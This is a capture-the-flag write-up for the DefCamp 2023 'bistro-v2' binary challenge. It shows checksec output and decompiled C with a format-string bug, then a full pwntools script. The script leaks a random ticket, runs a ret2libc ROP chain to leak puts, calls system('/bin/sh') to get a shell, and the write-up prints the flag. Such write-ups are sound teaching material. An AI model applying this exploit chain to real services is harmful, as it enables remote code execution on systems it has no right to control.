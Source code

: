 ## Challenge Description

Maybe you can get a free menu!!

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```  
$ checksec restaurant-v2  
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6  
RELRO           STACK CANARY      NX            PIE             RPATH
RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE  
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No
RUNPATH   82 Symbols        No    0               4
restaurant-v2  
```  
It's the same binary as in ``bistro``, but with an added function that checks
a "code". Let's check it:

```c  
int main(int argc,char **argv)  
{  
 int iVar1;  
 ssize_t sVar2;  
 undefined4 in_register_0000003c;  
 char **argv-local;  
 int argc-local;  
 int not_flag;  
 int flag;  
 int fd;  
  
 init((EVP_PKEY_CTX *)CONCAT44(in_register_0000003c,argc));  
 fd = open("/dev/urandom",0);  
 if (fd == -1) {  
   puts("Open failed");  
   iVar1 = -1;  
 }  
 else {  
   sVar2 = read(fd,&flag,4);  
   if (sVar2 == 4) {  
     close(fd);  
     puts("Wellcome to the restaurant V2!");  
     fflush(stdout);  
     fgets(buff,0x400,stdin);  
     printf(buff);  
     puts("Show me your ticket to pass: ");  
     fflush(stdout);  
     __isoc99_scanf("%x",&not_flag);  
     if (flag == not_flag) {  
       restaurant();  
     }  
     else {  
       puts("Permission denied!\n");  
     }  
     iVar1 = 0;  
   }  
   else {  
     puts("Read failed\n");  
     iVar1 = -1;  
   }  
 }  
 return iVar1;  
}  
```  
So we just need to leak it with the vulnerable printf and write it correctly
to pass the check. Then we run the same script as before but with some
addresses changed.

### Solution

```py  
#!/usr/bin/env python3

from pwn import *

#target = process("./restaurant")  
target = remote("34.107.4.232", 31399)

# Found with ROPGadget  
pop_rdi = p64(0x0000000000400b33)  
ret = p64(0x00000000004006ae) # align stack to 16-bytes again for system call

# Found in the binary  
main_addr = p64(0x0040088a)  
puts_plt = p64(0x004006c0)  
puts_got = p64(0x00602018)

# Leak the real code  
target.sendline(b"%9$x")  
code_leak = target.recvuntil(b"Show me your ticket to pass: ").split(b'\n')[1]

# Send it when the binary asks for the ticket  
print(code_leak)  
target.sendline(code_leak)

# Same exploit as in bistro, check that writeup  
target.sendline(b"3")  
payload = b"a" * 0x78 + pop_rdi + puts_got + puts_plt + main_addr # go back to
main for more inputs  
target.sendline(payload)  
print(target.recvuntil(b">>"))  
print(target.recvline())  
puts_leak = u64(target.recvline().strip().split(b':')[1].ljust(8, b'\x00'))  
print(puts_leak)  
print(hex(puts_leak))

system_addr = p64(puts_leak - 202064)  
print(system_addr)

sh_addr = p64(puts_leak + 0x133418)

payload = b"a" * 0x78 + ret + pop_rdi + sh_addr + system_addr

target.sendline(payload)  
target.interactive()  
```

#### Flag

```CTF{04134a331cd5bed41dc418c04854ac3fd7e03148f0e61d74d61508f19b7c5933}```  

Original writeup (https://dothidden.xyz/defcamp_quals_2023/bistro-v2/).